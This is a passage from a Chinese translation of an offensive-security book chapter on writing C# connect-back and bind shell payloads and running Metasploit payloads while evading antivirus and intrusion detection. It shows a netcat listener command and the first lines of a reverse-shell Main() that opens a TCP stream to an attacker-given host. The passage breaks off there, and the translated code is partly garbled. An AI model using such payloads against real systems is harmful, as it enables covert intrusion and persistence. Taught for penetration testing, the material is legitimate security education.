 # 第四章

4

编写连接回传、绑定和 Metasploit 有效载荷

![](img/00010.jpg)

作为渗透测试人员或安全工程师，能够即时编写和定制有效载荷是非常有用的。企业环境之间往往差异很大，而像 Metasploit 这样的框架提供的“现成”有效载荷通常会被入侵检测/防御系统、网络访问控制或网络的其他变量阻止。然而，企业网络中的 Windows 机器几乎总是安装了.NET 框架，这使得 C#成为编写有效载荷的绝佳语言。C#提供的核心库也具有出色的网络类，可以让你在任何环境中迅速开始工作。

最优秀的渗透测试人员知道如何构建定制化的有效载荷，针对特定的环境量身打造，以便能够在不被察觉的情况下维持较长时间的隐匿、保持持久性，或者绕过入侵检测系统或防火墙。本章将向你展示如何编写用于 TCP（传输控制协议）和 UDP（用户数据报协议）的多种有效载荷。我们将创建一个跨平台的 UDP 连接回传有效载荷，以绕过较弱的防火墙规则，并讨论如何运行任意的 Metasploit 汇编有效载荷以帮助避开杀毒软件的检测。

创建连接回传有效载荷

我们将编写的第一种有效载荷是连接回传，这允许攻击者监听目标设备的回传连接。如果你无法直接访问运行有效载荷的机器，这种类型的有效载荷非常有用。例如，如果你在外部网络执行带有 Metasploit Pro 的钓鱼活动，这种有效载荷允许目标设备通过外部网络与你建立连接。另一种方式，我们稍后会讨论，是让有效载荷在目标机器上监听来自攻击者的连接。像这样的绑定有效载荷在你能够获得网络访问权限时，最有助于维持持久性。

网络流

我们将使用大多数 Unix 类操作系统上可用的 netcat 工具来测试我们的绑定和连接回传有效载荷。大多数 Unix 操作系统都预装了 netcat，但如果你想在 Windows 上使用它，则必须通过 Cygwin 或独立的二进制文件下载该工具（或从源代码构建！）。首先，设置 netcat 来监听从我们的目标设备发出的连接回传，如示例 4-1 所示。

> $ nc -l 4444

示例 4-1: 使用 netcat 在端口 4444 上监听

我们的连接回传有效载荷需要创建一个网络流来进行读写。如示例 4-2 所示，有效载荷的 Main()方法的前几行创建了这个网络流，并在后续使用时根据传递给有效载荷的参数来设置。

> public static void Main(string[] args)
> 
> {
> 
> 使用 (TcpClient client = new ➊TcpClient(args[0], ➋int.Parse(args[1])))
> 
> {
> 
> 使用 (Stream stream = client.➌GetStream())
> 
> {
> 
> 使用 (StreamReader rdr = new ➍StreamReader(stream))
> 
> {
